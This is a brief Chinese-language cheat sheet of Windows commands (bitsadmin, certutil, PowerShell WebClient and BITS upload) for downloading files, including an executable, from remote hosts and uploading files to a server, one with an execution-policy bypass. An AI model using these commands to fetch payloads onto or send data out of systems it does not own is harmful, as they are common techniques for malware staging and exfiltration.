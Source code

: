 # 一、下载文件
## 1、cmd
### (1)bitsadmin
```
bitsadmin /transfer Winupdate /download http://xx.xx.xx.xx/example.exe "c:\users\***\desktop\example.exe"
```
### (2)certuil

```
certutil -urlcache -split -f https://www.xxx.com/test.py
certutil -urlcache -split -f https://www.xxx.com/test.py ff.py
```
## 2、powershell
```
powershell (new-object System.Net.WebClient).DownloadFile( 'http://www.xx.com/ff.jpg','c:\aaa.jpg')
```
# 二、上传文件
## 1、powershell
注：需配合搭建配置服务器端IIS，服务器端要开启安装BITS上传组件
### 多行
```
Import-Module BitsTransfer
Start-BitsTransfer -Source file.rar -Destination http://202.182.103.240/upload/file.rar -transfertype upload
```
### 一句话
```
powershell -nop -exec bypass Import-Module BitsTransfer;Start-BitsTransfer -Source avlog.rar -Destination http://xx.xx.xx.xx/upload/example.rar -transfertype upload
```
